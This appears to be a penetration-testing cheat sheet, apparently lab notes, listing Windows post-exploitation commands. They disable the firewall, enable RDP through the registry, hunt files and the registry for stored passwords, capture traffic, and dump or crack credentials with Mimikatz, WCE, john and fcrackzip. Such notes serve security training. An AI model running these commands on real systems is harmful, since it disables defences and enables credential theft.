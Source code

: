 ```

disable firewall
```
netsh advfirewall set  allprofiles state off

netsh firewall set opmode mode=DISABLE
```

enable rdesktop
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
---
rdesktop -u sloth -p password123 -g 90% 10.11.1.22

```

Manual info gathering
```
type %SYSTEMDRIVE%\boot.ini
type %WINDIR%\win.ini
type %WINDIR%\System32\drivers\etc\hosts

dir /s *pass* == *key* == *vnc* == *.config*
findstr /si pass *.xml *.ini *.txt

reg query HKLM /f pass /t REG_SZ /s
reg query HKCU /f pass /t REG_SZ /s

```

capture packets on windows
```
WinDump.exe -i 2 -s 65535 -w dump.pcap host 10.11.1.218
```
Then use [Message Analyzer](http://www.microsoft.com/en-us/download/details.aspx?id=44226)


Unhide all hidden files and folders
```
attrib -s -h -r /s /d *.*
```

[Mimikatz](https://github.com/gentilkiwi/mimikatz)

Windows Credential Editor
```
wce.exe
```

Password cracking

```
john -wordlist:/usr/share/wordlists/10-million-password-list-top-100000.txt --format=phpass hash.txt
```

Password protected zips

```
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt password_protected.zip
```

## Stuck? Don't Panic!

- Try super obvious username/password combinations (use cewl if necessary)
- Google the name of the service, look for known vulns, default passwords
- Revert, Revert, Revert
```